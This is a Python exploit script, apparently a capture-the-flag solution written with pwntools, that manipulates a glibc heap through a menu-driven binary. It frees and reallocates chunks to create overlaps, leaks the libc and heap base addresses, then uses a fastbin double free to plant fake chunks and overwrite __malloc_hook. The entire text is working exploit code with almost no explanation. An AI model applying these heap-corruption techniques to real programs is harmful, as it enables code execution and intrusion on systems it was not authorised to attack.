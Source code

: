```python
# to get smallbin
dele(7) # bypass unlink check
dele(4)
scanf_consli()
dele(10)
scanf_consli()

add(0x38)   # 4

# 5 fd and main_arena is overlapped
view(5)
rv('Content: ')
libc_base=u64(p.recv(6)+2*'\x00')-0x3c4b78
log.info('libc base is :'+hex(libc_base))

add(0x38) # 7
add(0x38) # 9
add(0x28) # 10 alloc to the first address
add(0x28) # 21
# 7  and 5 is overlapped
# 9  and 6 is overlapped
# 21 and 8 is overlapped

#==========================
# just to leak chunk base
dele(11)
dele(5)
view(7)
rv('Content: ')
chunk_base=u64(p.recv(6)+2*'\x00')-0x2b0
log.info('chunk base is :'+hex(chunk_base))

add(0x38)
add(0x38)
# recover
#=========================
# use double free to write __malloc_hook
dele(5)
dele(11)
dele(7)

add(0x38,p64(0x30)) # 5
add(0x38)           # 7
add(0x38)           # 8

dele(8)
dele(10)
dele(21)

add(0x28,p64(libc_base+0x3c4b30))
add(0x28)
add(0x28)
add(0x28,p64(0)*3+p64(0x40))

dele(9)
dele(13)
dele(6)

add(0x38,p64(libc_base+0x3c4b50))
add(0x38)
add(0x38)
#add(0x38)
add(0x38,p64(0)*3+p64(libc_base+0x3c4b00)+p64(chunk_base+0x220)*3)
```